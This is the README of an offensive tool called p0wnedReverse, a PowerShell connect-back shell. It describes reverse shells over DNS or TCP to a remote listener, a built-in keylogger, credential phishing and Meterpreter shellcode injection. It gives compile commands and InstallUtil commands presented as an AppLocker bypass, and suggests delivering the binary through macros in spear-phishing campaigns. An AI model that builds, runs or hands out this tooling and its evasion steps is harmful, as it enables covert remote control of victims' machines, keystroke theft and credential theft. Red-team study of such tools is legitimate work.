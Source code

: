 # p0wnedReverse
PowerShell Runspace Connect-Back Shell

### Author: Cn33liz and Skons

License: BSD 3-Clause

### What is it:

p0wnedReverse is based on the same code as [p0wnedShell](https://github.com/Cn33liz/p0wnedShell) and can be used as an Connect-Back (Power)Shell.
Communication channels are made using Besimorhino's PowerCat code and you can choose between DNS TXT or TCP communication channels.
When the code is run it also starts an C# Keylogger that logs all keystrokes to "$env:Temp\KeyLog-*". You can use the Get-Keystrokes command within the shell to display all logged keystrokes.   
For a DNS tunnel you need to run a remote [DNSCat2 Listener](https://github.com/iagox86/dnscat2) and for TCP communication you can use [p0wnedShell](https://github.com/Cn33liz/p0wnedShell) to setup a Powercat Listener.


### How to Compile it:

When you need to setup a DNS tunnel, then comment/uncomment LHost, LPort and Domain variable and change PowerCat settings.
For TCP communication make sure you change the LHost and LPort variable to suit your needs (e.g. Listener IP/Port).

To compile p0wnedReverse you need to import this project within Microsoft Visual Studio or if you don't have access to a Visual Studio installation, you can compile it as follows:

To Compile as x86 binary:

```
cd \Windows\Microsoft.NET\Framework\v4.0.30319

csc.exe /unsafe /reference:"C:\p0wnedReverse\System.Management.Automation.dll" /reference:System.IO.Compression.dll /out:C:\p0wnedReverse\p0wnedReverseX86.exe /platform:x86 "C:\p0wnedReverse\*.cs"
```

To Compile as x64 binary:

```
cd \Windows\Microsoft.NET\Framework64\v4.0.30319

csc.exe /unsafe /reference:"C:\p0wnedReverse\System.Management.Automation.dll" /reference:System.IO.Compression.dll /out:C:\p0wnedReverse\p0wnedReverseX64.exe /platform:x64 "C:\p0wnedReverse\*.cs"
```

p0wnedReverse uses the System.Management.Automation namespace, so make sure you have the System.Management.Automation.dll within your source path when compiling outside of Visual Studio.

### How to use it:

Setup your DNS or TCP listener and run the executable or...

To run as x86 binary and bypass Applocker (Credits for this great bypass go to Casey Smith aka subTee):

```
cd \Windows\Microsoft.NET\Framework\v4.0.30319 (Or newer .NET version folder)

InstallUtil.exe /logfile= /LogToConsole=false /U C:\p0wnedReverse\p0wnedReverseX86.exe
```

To run as x64 binary and bypass Applocker:

```
cd \Windows\Microsoft.NET\Framework64\v4.0.30319 (Or newer .NET version folder)

InstallUtil.exe /logfile= /LogToConsole=false /U C:\p0wnedReverse\p0wnedReverseX64.exe
```

You could also use p0wnedReverse as a Payload for Spear Phishing Campaigns by embedding it into Excel Macro's e.g.

### What's inside the runspace:

#### The following PowerShell tools/functions are included:

* PowerSploit Invoke-Shellcode
* Besimorhino's PowerCat
* Nishang Invoke-CredentialsPhish
* Cn33liz Get-KeyStrokes (simple function that reads keystrokes from KeyLogger file)
* Cn33liz Invoke-Meterpreter (wrapper function around Invoke-Shellcode that needs an IP and Port argument to setup an reversed https meterpreter tunnel. Please note that this function only works with the x86 version of p0wnedReverse)

Powershell functions within the Runspace are loaded in memory from
[Base64 encode strings](https://github.com/Cn33liz/p0wnedShell/blob/master/Utilities/PS1ToBase64.ps1).

### Todo:

* Automatic generation of custom Binaries using a Windows Forms Application.

### Contact:

To report an issue or request a feature, feel free to contact me at:
Cornelis ```at``` dePlaa.com or [@Cn33lis](https://twitter.com/Cneelis)
